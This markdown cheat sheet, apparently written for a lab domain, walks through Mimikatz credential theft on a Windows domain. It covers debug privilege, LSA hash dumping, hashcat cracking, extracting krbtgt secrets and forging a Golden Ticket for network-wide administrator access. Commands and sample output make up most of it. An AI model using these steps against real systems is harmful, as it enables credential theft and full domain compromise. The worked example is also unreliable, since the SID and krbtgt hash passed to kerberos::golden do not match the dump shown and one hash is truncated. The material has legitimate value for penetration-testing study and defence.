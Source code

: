 ## Mimikatz
### Tables of Contents
- [Mimikatz](#mimikatz)
  * [Tables of Contents](#tables-of-contents)
  * [Run](#run)
  * [Dump hashes](#dump-hashes)
  * [Crack with hashcat](#crack-with-hashcat)
  * [Golden Ticket](#golden-ticket)
  * [Create the Golden Ticket](#create-the-golden-ticket)
  * [Use the Ticket](#use-the-ticket)

- Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network
- Transfer mimikatz.exe to the target
### Run
````
./mimikatz.exe
````
- Ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator.
- If you don't run mimikatz as an administrator, mimikatz will not run properly
````
privilege::debug 
````
### Dump hashes
````
lsadump::lsa /patch
````
### Crack with hashcat
````
hashcat -m 1000 <hash> rockyou.txt
````
### Golden Ticket
- Again using the mimikatz as the previous task; however, this time we'll be using it to create a golden ticket.
- We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.
- This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
````
lsadump::lsa /inject /name:krbtgt
````
- Output should look like this:
````
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
````
### Create the Golden Ticket
- You will need the:
- Domain SID (S-1-5-21-849420856-2351964222-986696166)
- USER (krbtgt)
- NTLM (5508500012cc005cf7082a9a89ebdfd)
- Create a Golden Ticket
````
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
````
- To create a golden ticket based on the output above we would use:
````
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3893474861-143125734-211
2006029 /krbtgt:78558f004296a6f9438f4532164a7acd /id:500
````
- Output should look like this:
````
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-3893474861-143125734-2112006029
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 78558f004296a6f9438f4532164a7acd - rc4_hmac_nt
Lifetime  : 8/8/2021 4:37:58 PM ; 8/6/2031 4:37:58 PM ; 8/6/2031 4:37:58 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
````
### Use the Ticket
- Use the Golden Ticket to access other machines:
````
misc::cmd
````
- This will open a new command prompt with elevated privlages to all machines
- Access other Machines! - You will now have another command prompt with access to all other machines on the network







